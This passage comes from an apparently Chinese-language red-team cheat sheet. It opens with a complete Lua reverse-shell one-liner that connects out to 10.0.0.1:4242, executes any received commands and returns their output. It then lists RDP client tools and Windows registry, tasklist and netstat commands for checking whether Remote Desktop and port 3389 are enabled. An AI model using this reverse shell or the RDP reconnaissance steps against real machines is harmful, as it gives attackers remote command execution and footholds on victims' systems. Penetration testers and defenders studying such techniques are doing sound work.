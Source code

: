 **lua**
```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

---

# RDP

**第三方连接工具**
- [rdesktop/rdesktop](https://github.com/rdesktop/rdesktop)
    - kali 自带,使用方法 : `rdesktop [ip]`
- [Remmina](https://remmina.org/)
- [FreeRDP/FreeRDP](https://github.com/FreeRDP/FreeRDP)

## 命令行开启RDP

**相关文章**
- [开启 RDP](https://b404.xyz/2017/12/27/open-RDP/)
- [查询和开启3389端口方式总结](https://mp.weixin.qq.com/s/hgGcoEghsW0IIh7r-YCKCg)

**查看 3389 端口是否开启**
```bash
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /*如果是0x0则开启
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/7.png)

**查看远程连接的端口**
```bash
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/8.png)

tasklist、netstat 命令查询 3389 端口
```
tasklist /svc | findstr "TermService"
netstat -ano | findstr "xxx"
```
